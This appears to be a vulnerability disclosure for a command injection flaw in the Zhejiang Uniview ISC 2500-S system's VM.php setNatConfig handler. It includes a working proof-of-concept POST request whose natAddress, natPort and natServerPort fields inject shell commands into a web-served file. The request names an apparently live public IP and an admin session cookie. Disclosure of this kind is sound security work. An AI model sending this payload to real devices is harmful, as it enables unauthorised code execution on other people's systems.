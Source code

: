Zhejiang Uniview ISC 2500-S system has command execution vulnerability

1. Impact of vulnerabilities：ISC 2500-S
2. Vulnerability location：/Interface/DevManage/VM.php
3. Code analysis：When entering the setNatConfig branch, the three parameters natAddress, natPort, and natServerPort are brought to the exec() function for command execution without any filtering.
![image](https://github.com/since2019-costin/cve/assets/169053485/766aaaa8-460d-4c10-a3ce-374b160822b4)
4.Vulnerability recurrence

![image](https://github.com/since2019-costin/cve/assets/169053485/01f829fb-6d65-4bf0-8084-a2929c874934)

We write the id into 1.php through the natAddress, natPort, and natServerPort parameters. The POC is as follows
```
POST /Interface/DevManage/VM.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Referer: http://ip:90/Page/SystemConfig/DevConfig/NatSet.php
x-requested-with: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: 220.189.218.162:90
Content-Length: 261
Pragma: no-cache
Cookie: logintime=Fri%20Jan%205%2018%3A46%3A56%20UTC+0800%202024; devLanguage=zh-CN; loginuser=admin; recordpasswd=false; PHPSESSID=4fa99df42dc0dad9b54b4034c74e8f91
Connection: close

cmd=setNatConfig&natAddress=1.1.1.2;echo%20`id`%20>%201.php&natPort=80;echo%20`id`%20>%201.php&natServerPort=;echo%20`id`%20>%201.php&GAJAX_USERID=0000&GAJAX_LOGINID=21822020240105183142&GAJAX_ORGCODE=0000&GAJAX_USERNAME=admin&GAJAX_ORGNAME=Root&GAJAX_ORGTYPE=2
```
![image](https://github.com/since2019-costin/cve/assets/169053485/1c1f5b10-c00a-4707-9255-b9e40704f42f)

Visit /Interface/LogReport/1.php
![image](https://github.com/since2019-costin/cve/assets/169053485/88b6fe24-0c1a-45e2-acdf-a328eb9141ea)
